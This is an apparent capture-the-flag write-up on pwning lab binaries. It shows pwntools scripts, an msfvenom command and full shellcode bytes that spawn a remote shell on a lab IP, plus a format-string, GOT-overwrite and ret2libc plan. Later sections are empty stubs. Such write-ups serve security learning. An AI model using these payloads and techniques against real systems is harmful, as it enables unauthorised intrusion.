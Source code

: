 # TryPwnMe Two

### TryExecMe 2
This first binary executes whatever shellcode we provide in input. <br />
![image](https://github.com/user-attachments/assets/a2bd5ffd-89d0-4fc9-b2ad-f1ab985c565c)<br />
The problem is that it calls a function called `forbidden` that checks if the shellcode is made of forbidden characters. If so, the binary prints "Forbidden spell detected!".<br />
So of course this simple script doesn't work:

    from pwn import *
    
    p = process("./tryexecme2")
    
    shellcode = shellcode = asm(shellcraft.sh())
    
    p.sendline(shellcode)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/48491203-eebf-4a7b-8235-cb92ce6fe4b6)<br />
That's because `shellcraft` obviously uses some forbidden characters, otherwise it would be too easy. So I think I need to use `msfvenom`. I analyzed the binary with IDA to find what are the bad characters, and at the end I generated the payload with msfvenom: `msfvenom -p linux/x64/exec CMD=/bin/sh -b '\x80\x34\x7e\x0f\x04\xcd' -f python`.<br />
The final script to exploit the remote machine is:

    from pwn import *
    
    #p = process("./tryexecme2")
    
    ip = "10.10.136.230"
    port = 5002
    
    p = remote(ip,port)
    
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d"
    buf += b"\x05\xef\xff\xff\xff\x48\xbb\x1c\x2e\x8e\xb1\x27"
    buf += b"\x5c\x2f\xb9\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
    buf += b"\xff\xe2\xf4\x54\x96\xa1\xd3\x4e\x32\x00\xca\x74"
    buf += b"\x2e\x17\xe1\x73\x03\x7d\xdf\x74\x03\xed\xe5\x79"
    buf += b"\x0e\xc7\xb1\x1c\x2e\x8e\x9e\x45\x35\x41\x96\x6f"
    buf += b"\x46\x8e\xe7\x70\x08\x71\xd3\x27\x76\x81\xb4\x27"
    buf += b"\x5c\x2f\xb9"
    
    p.sendline(buf)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/16b687cf-7dfb-483b-8980-7f6e05ced814)<br />

### Not Specified 2
Checksec shows the following defense measures:<br />
![Screenshot 2025-03-25 103655](https://github.com/user-attachments/assets/193bc2cb-5209-4641-a0d1-671cac146ede)<br />
This is how IDA disassembles the binary:<br />
![image](https://github.com/user-attachments/assets/bb63c6a3-058c-4e67-9c91-652318ae4808)<br />
As you can see, the stack is 528 bytes long, but the `read` function only takes 512 bytes in input. This means that technically I can't do any buffer overflow. What I can do though is a format string exploit. <br />
How can a format string vulnerability lead to a full shell on the target system? The lack of defense mechanisms can allow it:
- Partial RELRO --> the GOT is writable during execution.
- No PIE --> the code of the binary ALWAYS starts at `0x3fe000`.
- Not Stripped --> easier to find GOT entries.
<br /><br />
The main idea of this attack is:
1) use format string to leak addresses from the stack. Inside the stack I want to find an address of a function from the libc library. Notice that I don't need to do all of this in a single execution. The stack layout is going to be the same at every execution, so I can just execute the program multiple times until I find at which offset the stack contains a libc function.
2) Once I know the offset, I can dinamically compute the base of the libc library by subtracting the known offset of the leaked function from the leaked address.
3) Since the binary is not PIE, the address of the GOT table is well known, and I can use the format string vulnerability to overwrite the entry of the `exit` function in the GOT with the address of `main`, so that I have another execution to send a second payload, while the base of the libc is still the same! you know where this is going..
4) Now I compute the addresses of `system` and and perform a ret2libc attack by overwriting the entry point of `exit` in the GOT with the address of `system`, and sending `/bin/sh` as an argument.
<br />
So let's start with the first step. After some trial end error, you'll find out that the third element of the stack contains an address from the libc:<br />
![Screenshot 2025-03-26 111122](https://github.com/user-attachments/assets/6dc73b23-e408-49b1-bd79-9373f2bb9884)<br />
![Screenshot 2025-03-26 111252](https://github.com/user-attachments/assets/ee3875ef-fcf8-424d-88cf-9767935731c0)<br />
This means that the third address of the stack is 23 bytes away from the `write()` fucntion of the libc library. Good, so now I know how to compute the address of libc.

....

Now I want to do a test. I want to see if I can overwrite the entrypoint of the `exit` fucntion with the address `main`, so that I can execute the program again and drop the second payload. The following script seems to do the job.



### Try a Note

### Slow Server
